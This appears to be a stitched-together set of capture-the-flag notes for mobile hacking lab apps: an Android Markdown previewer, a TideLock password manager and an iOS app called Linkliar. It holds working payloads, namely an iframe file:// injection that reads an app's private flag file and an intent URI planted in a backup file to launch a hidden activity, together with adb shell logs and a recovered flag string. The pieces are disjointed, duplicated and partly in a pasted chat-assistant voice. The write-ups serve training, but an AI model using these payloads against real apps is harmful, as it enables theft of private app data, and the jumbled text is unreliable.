

Reversing the apk with `jadx-gui` we only find a single activity

```xml
<activity
    android:theme="@style/Theme.MarkdownPreviewer"
    android:label="@string/app_name"
    android:name="com.mobilehackinglab.markdownpreviewer.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

In the `MainActivity` we can see the flag is loaded at `/data/data/com.mobilehackinglab.markdownpreviewer/files/flag.txt` when `onCreate` method is called.

```java
private final void ensureFlagFile() {
    File file = new File(getFilesDir(), "flag.txt");
    if (file.exists()) {
        return;
    }
    FilesKt.writeText$default(file, "dummy", null, 2, null);
}
```

Looking in `MainActivity.kt` we have `markdownToHtml` method which has the following issue.

* `escapeHtml(false)` → raw HTML is NOT escaped
* `sanitizeUrls(false)` → dangerous URLs, including `file://`, are NOT blocked
* The CommonMark parser passes embedded HTML (e.g., `<iframe>, , <script>`) directly into final output

```java
public static final String markdownToHtml(String str) {
    return "<html><head><meta name=\"viewport\" content=\"width=device-width, initial-scale=1\"/><style>html,body{overflow-x:hidden;} body{font-family:sans-serif;padding:16px;} pre,code{white-space:pre-wrap;word-break:break-word;} *{max-width:100%;}</style></head><body>" + HtmlRenderer.builder().escapeHtml(false).sanitizeUrls(false).build().render(Parser.builder().build().parse(str)) + "</body></html>";
}
```

Looking at the WebView configuration we find some issues:

* `setAllowFileAccess(true)`	WebView can load `file://` URIs, including internal app files
* `shouldOverrideUrlLoading` → false	WebView will follow any URL, including `file:///data/`
* `JavaScriptEnabled(true)`	Increases attack surface (though not required for this exploit)

```java
public static final WebView WebViewContainer$lambda$14$lambda$13(Context context, MutableState mutableState, Context it) {
    Intrinsics.checkNotNullParameter(it, "it");
    WebView webView = new WebView(context);
    webView.getSettings().setJavaScriptEnabled(true);
    webView.getSettings().setAllowFileAccess(true);
    webView.getSettings().setLoadWithOverviewMode(true);
    webView.getSettings().setUseWideViewPort(true);
    webView.setHorizontalScrollBarEnabled(false);
    webView.setWebViewClient(new WebViewClient() { // from class: com.mobilehackinglab.markdownpreviewer.MainActivityKt$WebViewContainer$1$1$1$1
        @Override // android.webkit.WebViewClient
        public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
            return false;
        }
    });
    mutableState.setValue(webView);
    return webView;
}
```


 Code Analysis: Verified in MainActivity.kt that ensureFlagFile creates the flag at /data/data/com.mobilehackinglab.markdownpreviewer/files/flag.txt.
  1 
  2     Vulnerability Identification: The app uses a WebView to render Markdown, which allows raw HTML injection and has local file access enabled.
  3 
  4     Exploitation: Since JavaScript execution appeared disabled, I bypassed it using an <iframe> to load the local resource directly.
  5 
  6     Payload: shell:/sdcard/Download$ echo "<iframe src="file:///data/data/com.mobilehackinglab.markdownpreviewer/files/flag.txt" width="100%" height="500"></iframe>" >> exploit.md
  7 
  8     Result: The WebView rendered the iframe, retrieving the internal file and displaying the flag text within the preview window.
  111111


We can exploit this to inject a malicious Intent URI. When you restore and click the link in the app, the app itself will launch the hidden FlagActivity.
Step-by-Step Guide

    Create a Dummy Entry:

        Open the app and log in.

        Create a new password entry.

        Set the URL to something easy to find, like: https://FIND_ME_HERE.com

        Fill in other fields with junk and save.

    Create a Backup:

        Tap the Backup button.

        The app will say "Backup successful".

        Because the dialog warns about "other applications reading it", the file is saved to External Storage.

    Locate and Edit the Backup File:

        Connect your phone to your PC.

        Navigate to the app's external data folder. It is usually located at:
        Internal Storage > Android > data > com.mobilehackinglab.yay.tidelock > files > backup.json
        (The filename might be different, e.g., passwords.json or backup.txt).

        Open the file with a text editor.

        Find your dummy URL: https://FIND_ME_HERE.com

        Replace that URL with this specific Intent URI:
        code Text

        
    intent:#Intent;component=com.mobilehackinglab.yay.tidelock/.FlagActivity;end

      

Restore the Malicious Backup:

    Save the file and ensure it's back on the phone.

    Open the TideLock app.

    Tap the Restore button.

    The list should refresh. Your entry should now contain the hidden malicious link (though it might look blank or weird).

Trigger the Exploit:

    Tap on the password entry you just restored to view its details.

    Tap on the URL (or the "Globe"/Launch icon next to it).

    This will force the app to execute the URI. Since the URI points to FlagActivity and originates from the app itself, it bypasses the exported="false" check and the NativeUtils check.

Get the Flag:

    The FlagActivity will open and display the flag.

    Even if it crashes or closes quickly, the code you shared earlier confirms it copies the flag to a public file:
    Internal Storage > Android > data > com.mobilehackinglab.yay.tidelock > files > flag.txt


    adb shell
shell:/$ cd Android                                                                                                                                                                                         
sh: cd: Android: No such file or directory
shell:/$ cd sdcard
shell:/sdcard$ ls
Alarms  Android  Audiobooks  DCIM  Documents  Download  Movies  Music  Notifications  Pictures  Podcasts  Recordings  Ringtones
shell:/sdcard$ cd Android
shell:/sdcard/Android$ ls
data  media  obb
shell:/sdcard/Android$ cd data
shell:/sdcard/Android/data$ ls
com.mobilehackinglab.yay.tidelock
shell:/sdcard/Android/data$ cd com.mobilehackinglab.yay.tidelock/
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock$ ls
files
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock$ cd files
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ ls
passwords.json
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ cat passwords.json
[{"password":"12121","url":"https://gshas","username":"1212","website":"gmail"},{"password":"binder","url":"https://exploit.com","username":"binder","website":"exploit"}]shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ ls
passwords.json
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ rm passwords.json 
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ ls
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ ls
passwords.json
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ cat passwords.json 
[{"password":"12121","url":"https://gshas","username":"1212","website":"gmail"},{"password":"binder","url": "intent:#Intent;component=com.mobilehackinglab.yay.tidelock/.FlagActivity;end","username":"binder","website":"exploit"}]
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ ⏎     

    adb shell
shell:/$ cd Android                                                                                                                                                                                         
sh: cd: Android: No such file or directory
shell:/$ cd sdcard
shell:/sdcard$ ls
Alarms  Android  Audiobooks  DCIM  Documents  Download  Movies  Music  Notifications  Pictures  Podcasts  Recordings  Ringtones
shell:/sdcard$ cd Android
shell:/sdcard/Android$ ls
data  media  obb
shell:/sdcard/Android$ cd data
shell:/sdcard/Android/data$ ls
com.mobilehackinglab.yay.tidelock
shell:/sdcard/Android/data$ cd com.mobilehackinglab.yay.tidelock/
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock$ ls
files
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock$ cd files
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ ls
passwords.json
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ cat passwords.json
[{"password":"12121","url":"https://gshas","username":"1212","website":"gmail"},{"password":"binder","url":"https://exploit.com","username":"binder","website":"exploit"}]shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ 

󰪢 0s 󰜥 󰉋   /  /mhl 
    adb pull /sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/backup.json .
adb: error: failed to stat remote object '/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/backup.json': No such file or directory
󰪢 0s 󰜥 󰉋   /  /mhl 
    adb pull /sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/passwords.json .
/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/passwords.json: 1 file pulled, 0 skipped. 0.0 MB/s (170 bytes in 0.227s)
󰪢 0s 󰜥 󰉋   /  /mhl 
    vim passwords.json 
󰪢 22s 󰜥 󰉋   /  /mhl 
    adb push passwords.json /sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/
passwords.json: 1 file pushed, 0 skipped. 0.9 MB/s (229 bytes in 0.000s)





```xml
    cat Info.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>BuildMachineOSBuild</key>
	<string>25A362</string>
	<key>CFBundleDevelopmentRegion</key>
	<string>en</string>
	<key>CFBundleDisplayName</key>
	<string>Linkliar</string>
	<key>CFBundleExecutable</key>
	<string>Linkliar</string>
	<key>CFBundleIcons</key>
	<dict>
		<key>CFBundlePrimaryIcon</key>
		<dict>
			<key>CFBundleIconFiles</key>
			<array>
				<string>AppIcon60x60</string>
			</array>
			<key>CFBundleIconName</key>
			<string>AppIcon</string>
		</dict>
	</dict>
	<key>CFBundleIcons~ipad</key>
	<dict>
		<key>CFBundlePrimaryIcon</key>
		<dict>
			<key>CFBundleIconFiles</key>
			<array>
				<string>AppIcon60x60</string>
				<string>AppIcon76x76</string>
			</array>
			<key>CFBundleIconName</key>
			<string>AppIcon</string>
		</dict>
	</dict>
	<key>CFBundleIdentifier</key>
	<string>com.mobilehackinglab.Linkliar</string>
	<key>CFBundleInfoDictionaryVersion</key>
	<string>6.0</string>
	<key>CFBundleName</key>
	<string>Linkliar</string>
	<key>CFBundlePackageType</key>
	<string>APPL</string>
	<key>CFBundleShortVersionString</key>
	<string>1.0</string>
	<key>CFBundleSupportedPlatforms</key>
	<array>
		<string>iPhoneOS</string>
	</array>
	<key>CFBundleURLTypes</key>
	<array>
		<dict>
			<key>CFBundleURLName</key>
			<string>linkliar</string>
			<key>CFBundleURLSchemes</key>
			<array>
				<string>linkliar</string>
			</array>
		</dict>
	</array>
	<key>CFBundleVersion</key>
	<string>1</string>
	<key>DTCompiler</key>
	<string>com.apple.compilers.llvm.clang.1_0</string>
	<key>DTPlatformBuild</key>
	<string>23A339</string>
	<key>DTPlatformName</key>
	<string>iphoneos</string>
	<key>DTPlatformVersion</key>
	<string>26.0</string>
	<key>DTSDKBuild</key>
	<string>23A339</string>
	<key>DTSDKName</key>
	<string>iphoneos26.0</string>
	<key>DTXcode</key>
	<string>2601</string>
	<key>DTXcodeBuild</key>
	<string>17A400</string>
	<key>LSRequiresIPhoneOS</key>
	<true/>
	<key>MinimumOSVersion</key>
	<string>15.4</string>
	<key>NSAppTransportSecurity</key>
	<dict>
		<key>NSAllowsArbitraryLoads</key>
		<true/>
		<key>NSExceptionDomains</key>
		<dict/>
	</dict>
	<key>UIApplicationSceneManifest</key>
	<dict>
		<key>UIApplicationSupportsMultipleScenes</key>
		<false/>
		<key>UISceneConfigurations</key>
		<dict>
			<key>UIWindowSceneSessionRoleApplication</key>
			<array>
				<dict>
					<key>UISceneConfigurationName</key>
					<string>Default Configuration</string>
					<key>UISceneDelegateClassName</key>
					<string>SceneDelegate</string>
					<key>UISceneStoryboardFile</key>
					<string>Main</string>
				</dict>
			</array>
		</dict>
	</dict>
	<key>UIApplicationSupportsIndirectInputEvents</key>
	<true/>
	<key>UIDeviceFamily</key>
	<array>
		<integer>1</integer>
		<integer>2</integer>
	</array>
	<key>UILaunchStoryboardName</key>
	<string>LaunchScreen</string>
	<key>UIMainStoryboardFile</key>
	<string>Main</string>
	<key>UIRequiredDeviceCapabilities</key>
	<array>
		<string>arm64</string>
	</array>
	<key>UISupportedInterfaceOrientations</key>
	<array>
		<string>UIInterfaceOrientationPortrait</string>
		<string>UIInterfaceOrientationLandscapeLeft</string>
		<string>UIInterfaceOrientationLandscapeRight</string>
	</array>
	<key>UISupportedInterfaceOrientations~ipad</key>
	<array>
		<string>UIInterfaceOrientationPortrait</string>
		<string>UIInterfaceOrientationPortraitUpsideDown</string>
		<string>UIInterfaceOrientationLandscapeLeft</string>
		<string>UIInterfaceOrientationLandscapeRight</string>
	</array>
	<key>UISupportedInterfaceOrientations~iphone</key>
	<array>
		<string>UIInterfaceOrientationPortrait</string>
		<string>UIInterfaceOrientationLandscapeLeft</string>
		<string>UIInterfaceOrientationLandscapeRight</string>
	</array>
</dict>
</plist>
```

```bash
    strings Linkliar | grep -i "MHL" -A 5
MHL{h34d3r_
s0_l0ng_th4
t_1t_0v3rfl0ws}
%s%s%s
POST
application/json
```